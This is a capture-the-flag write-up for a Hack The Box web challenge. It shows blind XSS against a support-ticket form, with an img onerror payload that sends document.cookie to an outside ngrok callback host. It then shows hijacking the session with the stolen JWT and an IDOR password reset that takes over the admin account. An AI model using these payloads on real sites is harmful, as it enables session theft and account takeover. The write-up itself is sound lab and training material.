 # Kryptos Support (web 300 points) 

## Description

>The secret vault used by the Longhir’s planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

## Resources

Docker instance provided when you start the challenge

## Solution

Navigating to the website you are presented with a Kryptos Vault Support page that contains text about submitting tickets, with an input box and a submit button. Submitting garbage as a test doesn't return anything of value. The text on the page changes to say that an admin will view the ticket shortly. Nothing is refelcted or rendered back on the page.

In the top left corner is a button labelled "backend" that links to a /login page. I fiddled with some genereic SQLi commands but again the feedback is well sanitised so i cannot glean any information like user enumeration etc.

I'm going to assume that this is a Cross-Site Scripting (XSS) challenge referred to as Blind XSS as there is no feedback on the page as to what my commands are doing. This means i am going to need to spin up a server and host a page to catch callbacks that i will insert as a payload into the input field.

I have never used ngrok before so i am testing it out on this challenge.

I'm going to spin up a python simple server to complete the circuit with the ngrok forwarding address.

```
python3 -m http.server
```
Gives the response 
>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

ngrok BXSS hosting tool. The following command will create a redirect URL linking to port 8000 on my local host, becuase thats where my python simple server is listening. The screenshot shows the output from the command. A URL is provided which redirects to your local machine. you'll need to copy that for your payload. The web interface at port 4040 will handle of the callbacks it receives and display the headers and information. This is where we will view the information we catch from out payload.

```
ngrok http 8000
```

<p align="center"><img src="_images/1ngrok.png"></p>

With that set, its time for a payload now and then we can check if we caught a callback from the Kryptos Support Team.

[Here is a great reference for BXSS commands/payloads](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

payload:  

```
"><script src="https://56f5-59-102-23-9.au.ngrok.io"</script>
```
Receives a callback which can be viewed on the ngrok web interface, so it's all working. Now we just need to add something malicious to the payload that we can exploit. Let's see if we can get a user cookie.

```
<img src=x onerror="this.src='https://62ce-59-102-23-9.au.ngrok.io?'+document.cookie; this.removeAttribute('onerror');">
```

<p align="center"><img src="_images/1payload.png"></p>

Checking the web interface we can see that we captured a JSON Web Token (JWT), this can be used to authenticate as that user.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5NjM5OTB9.Lrlo9B0Y11no7QXnxOaBJR6yPJunho4PWEnS31S1Mh4
```

<p align="center"><img src="_images/2cookie.png"></p>

We can run the JWT through [jwt.io](https://jwt.io/) to decode and see what it contains. We can see here that the username is "Moderator" and there is also a user ID "UID=100". This will probably be handy later.

<p align="center"><img src="_images/3jwt.png"></p>

Having a look through the source and javascript files, i found the function that creates the POST when you click submit. The POST is sent to "/API/tickets/add" so now we have an API endpoint. 

<p align="center"><img src="_images/4tickets.png"></p>

Lets create a cookie in our browser using the captured JWT and navigate to /tickets to see if we can log in as "Moderator". Open the developer options with F12, navigate to the tab containing cookies which varies between browsers. Then create a new cookie with the name "session" and paste the captured JWT into the value column. Success, you can see here we are logged in as Moderator and now we have access to the submitted support tickets. 

<p align="center"><img src="_images/5cookieAuthenticate.png"></p>

There is nothing we can do with the tickets but there is a "Settings" button in the top left which links us to a password reset page.

<p align="center"><img src="_images/6settings.png"></p>

This page provides a password change functionality without requiring the current password. Viewing the page source shows hidden UID field with the value 100, which we know is for the user "moderator".

<p align="center"><img src="_images/7changePasswordParams.png"></p>

I'm going to try and change this value to change the password for the admin since moderator hasn't given us access to the flag. Admins are usually UID=1. Close ngork and python server, load burpsuite. Turn the intercept on and i submitted a password reset for moderator and intercepted the request. You can see the new password that i set "password123" along with the UID=100 parameter. Perfect, we should be able to escalate privileges here.

<p align="center"><img src="_images/8uid100.png"></p>

Generate a new password reset request in the browser and hit submit. Intrercept the request in burp and change the UID to '1'.

<p align="center"><img src="_images/8uid1.png"></p>

You get the following message in the browser saying we successfully changed the admins password.

<p align="center"><img src="_images/9adminChanged.png"></p>

Navigate to the login page and authenticate using the username admin and the password you just set.

<p align="center"><img src="_images/flag.png"></p>

## Flag = HTB{x55_4nd_id0rs_ar3_fun!!}
